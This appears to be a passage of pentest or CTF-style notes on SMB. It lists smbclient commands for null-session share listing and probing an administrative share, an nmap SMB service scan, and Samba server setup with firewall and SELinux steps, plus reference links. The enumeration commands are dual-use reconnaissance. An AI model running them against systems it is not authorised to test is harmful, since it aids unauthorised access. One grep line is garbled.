smbclient -L "$host" -U $user -N
smbclient -L "$host" -U "$domain/$user"

# Validation
smbclient '//$host/f$' -U '$domain/$user'
# => tree connect failed: NT_STATUS_ACCESS_DENIED
smbclient '\\$host\f$' -U '$domain/$user'
# => smb: \>

# Enumeration
nmap -p445 -sV --script smb-enum-services 10.0.2.123

# Server configuration
vim /etc/samba/smb.conf
systemctl restart smb.service

firewall-cmd --permanent --add-service=samba
firewall-cmd --reload
# Given: `yum install policycoreutils-python`
setsebool -P samba_export_all_ro=1 samba_export_all_rw=1
getsebool -a | grep samba_exportgetsebool
semanage fcontext -at samba_share_t "/foo/bar(/.*)?"
restorecon /foo/bar
```

- https://www.tldp.org/HOWTO/SMB-HOWTO-8.html

# case studies

- https://systemoverlord.com/2021/03/12/bsidessf-2021-ctf-net-matroyshka-author-writeup.html
    - http + ftp + rsyncd + tftp (netascii) + smb + git smart protocol + dnscat2 + telnet
